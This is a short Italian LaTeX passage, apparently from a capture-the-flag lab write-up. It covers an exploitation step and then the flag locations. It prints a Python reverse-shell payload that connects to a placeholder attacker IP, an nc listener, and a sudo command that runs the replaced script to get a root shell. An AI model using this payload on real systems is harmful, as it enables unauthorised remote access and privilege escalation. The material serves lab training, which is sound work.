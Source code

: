 \documentclass[a4paper,11pt]{article}
\begin{document}
\subsection{Sfruttamento}

Il file \texttt{run.py} viene sostituito con payload reverse shell:

\begin{lstlisting}
import socket,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("ATT_IP",9001));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")
\end{lstlisting}

Listener:

\begin{lstlisting}
nc -lvnp 9001
\end{lstlisting}

Esecuzione:

\begin{lstlisting}
sudo /usr/bin/python3 /home/cyber/run.py
\end{lstlisting}

\textbf{Risultato: shell root ottenuta}

\section{Proof of Compromise}

\subsection{User Flag}

\begin{lstlisting}
/home/cyber/flag1.txt
\end{lstlisting}

\subsection{Root Flag}

\begin{lstlisting}
/root/root.txt
\end{lstlisting}

\section{Conclusioni}
\end{document}
